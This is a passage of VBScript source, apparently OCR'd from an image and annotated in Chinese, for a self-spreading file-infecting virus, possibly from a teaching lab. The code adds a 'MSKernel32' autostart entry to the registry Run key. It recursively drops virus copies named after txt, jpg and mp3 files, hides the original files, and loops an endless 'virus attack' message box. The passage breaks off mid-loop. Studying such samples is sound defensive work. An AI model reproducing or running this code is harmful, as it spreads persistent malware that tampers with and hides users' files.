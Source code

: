 ```vbscript
	
REM开始调用几个功能模块
	regruns()	
' 修改注册表，创建自启动项
	folderlist("D:\ExpNIC\VirusAD\Tools\ScriptVir\VBA\")
' 感染指定目录下的文件
	runmsg()	
'显示病毒发作
End Sub

Sub regruns()	'在注册表中创建自启动项
	On Error Resume Next
	regcreate '调用自定义函数regcreate
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKernel32",dirsystem&"\MSKernel32.vbs" '两个参数

End Sub


Sub regcreate(regkey,regvalue)	'修改注册表（创建键值）
	On Error Resume Next
	Set regedit = CreateObject("WScript.Shell")
	regedit.RegWrite regkey,regvalue
End Sub


Sub infectfiles(folderspec)	'执行传染文件操作
	On Error Resume Next
	Dim f,f1,fc,ext,s,m
	Set f = fso.GetFolder(folderspec) '获得文件夹folderspec的句柄
	Set fc = f.Files '令fc为文件夹中所有文件
	For Each f1 in fc '遍历folderspec中所有文件
		ext = fso.GetExtensionName(f1.path)	'取文件后缀
		ext = LCase(ext)	'将后缀转换为小写
		If (ext="txt") or (ext="jpg") or (ext="mp3") Then	'此3种文件被感染
				Set m = fso.CreateTextFile(f1.path&".vbs")	'创建以被感染文件名命名的病毒副本
				m.write vbscopy '病毒代码写入被感染文件
				m.close '关闭句柄
				If (f1.attributes = 0 or f1.attributes = 32 or f1.attributes = 2080) Then	'隐藏原文件
f1.attributes = 2
REM 属性值为0是普通文件，32是上次备份后已改变的文件，2为隐藏文件
			End If
		End If
	Next
End Sub


Sub folderlist(folderspec)	'遍历文件夹
	On Error Resume Next
	Dim f,f1,sf
	Set f = fso.GetFolder(folderspec)
	Set sf = f.SubFolders
	For each f1 in sf
		infectfiles(f1.path)	'感染目录中的文件
		folderlist(f1.path)	'递归，继续搜索子目录
	Next
End Sub

Sub runmsg
	On Error Resume Next
	Dim i
	While i = 0    '死循环，一直显示“病毒发作”
   		MsgBox ("病毒发作")
```
